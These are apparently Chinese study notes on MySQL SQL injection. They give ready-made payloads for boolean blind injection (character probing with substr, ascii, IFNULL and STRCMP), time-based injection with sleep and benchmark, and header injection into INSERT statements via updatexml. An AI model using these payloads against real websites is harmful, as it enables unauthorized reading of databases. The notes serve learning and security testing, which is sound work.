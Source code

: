 #### 盲注

服务器不会直接返回具体的数据库错误和语法错误，儿是返回程序开发时设置的特定信息，web页面仅返回True和False

睡眠函数sleep()

分割函数：substr(),mid(),

编码函数ascii()

```mysql
if(condition,field1,field2)

condition:(ascii(substr(database(),1,1))>115
          (ascii(mid(database(),1,1)))>115
```

?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +

//如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +

//若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1



ascii(substr(str,1,1)) > 69

#### 延时注入

```mysql
 if   : if(ture/false,sleep(1),1)
 
case when  else end :

case
	when true 
		then sleep(3)
	else 1
end;

```

benchmark(arg1,arg2)用来测试一些函数的执行速度，arg1为执行的次数，arg2为执行的函数或者表达式，

select if(1=1,benchmark(40000000,md5('asd')),'no');

 #### 请求头注入

服务端可能将请求头中的信息保存进数据库

​	insert into

`insert into user_login() values (1.1.1.1)`

```mysql
values ('1','useragent' and updatexml(1,concat(),1) and '','2',3,4) //报错


values ('1','useragent' and (if(true,sleep(3),1)) and '1','2',3,4)
```
